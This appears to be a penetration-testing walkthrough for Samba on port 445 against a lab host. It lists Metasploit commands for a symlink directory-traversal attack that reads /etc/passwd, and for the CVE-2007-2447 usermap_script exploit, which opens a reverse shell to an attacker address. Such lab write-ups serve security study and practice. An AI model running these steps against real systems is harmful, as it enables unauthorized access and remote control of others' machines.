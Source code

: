 
## Port 445 | netbios-ssn (Samba)

https://www.youtube.com/watch?v=YkXUrPu7sPc

### Attack Vector #1 

OSVDB-62145

Samba Symlink Directory Traversal

1. Check to see if Samba is configured with a writeable file share
```
# smbclient -L //192.168.50.7  (press Enter to use anonymous access)

(press Enter to use anonymous access)
```
2. Create a new directory and link it to the root filesystem on victim machine
```
> use auxiliary/admin/smb/samba_symlink_traversal
> set rhost 192.168.50.7
> set smbshare tmp
> set smbtarget new_root_victim

> exploit
```
3. Access to the root filesystem using an anonymous connection
```
# smbclient //192.168.50.7/tmp  (press Enter to use anonymous access)
```
List directory contents
> smb: \> ls

Access to the newly created directory (linked to the root filesystem)
> smb: \> cd new_root_victim

Read passwd file
> smb: \new_root_victim\> more /etc/passwd

### Attack Vector #2 

1. We use an auxiliary module to get info about the SMB version
```
> use auxiliary/scanner/smb/smb_version
> set rhosts 192.168.50.7

> run
```
> [*] 192.168.50.7:445 - Host could not be identified: Unix (Samba 3.0.20-Debian)

2. With the above information (Samba 3.0.20-Debian), we can now use a suitable exploit against the target

CVE-2007-2447

Samba "username map script" Command Execution
```
> use exploit/multi/samba/usermap_script
> set rhost 192.168.50.7

> set payload cmd/unix/reverse
> set lhost 192.168.50.6

> exploit

id
ifconfig
```



